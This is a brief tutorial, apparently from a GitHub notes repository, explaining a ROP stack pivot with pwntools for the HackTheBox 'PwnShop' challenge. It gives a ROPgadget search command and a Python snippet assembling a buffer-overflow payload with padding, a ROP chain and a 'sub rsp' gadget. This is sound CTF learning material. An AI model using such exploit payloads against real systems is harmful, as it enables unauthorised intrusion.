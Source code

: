 # ROP Stack Pivot with PWNtools

## Stack Pivot Basics

The goal of the stack pivot is to move the stack pointer(RSP) up. To create space for a bigger ROP chain, this is useful when the space at the offset is to small to put the ROP chain in.

## Find the ROP Gadget that will do the stack pivot

A way to do the stack pivot is with a subtract on the RSP Register. This ROP Gadget can be found with ROPGadget.

```bash
ROPgadget --binary pwnshop --only "sub|ret"
```

Get the gadget with the RSP Register.

After the jump(sub_rsp) the padding in the overflow need to be changed.

Example code pwntools:

```python
rop_padding_offset = 40
buy_padding_offset = 72
binary_offset = 0x6000 #Random offset, has to be calculed

padding_to_rop = b'a' * rop_padding_offset
sell_function = p64(0x126a + binary_offset)

rop_chain = sell_function + sell_function
padding_to_stack_pivot = (buy_padding_offset - len(padding_to_rop) - len(rop_chain)) * b'b'
sub_rsp = p64(0x1219 + binary_offset)

payload = padding_to_rop + rop_chain + padding_to_stack_pivot + sub_rsp
```

## Reference

[PinkDraconian Video](https://www.youtube.com/watch?v=i_5VQF18suQ)
[HackTheBox Challenge - PWNhshop](https://www.hackthebox.eu/home/challenges/Pwn?name=PwnShop)
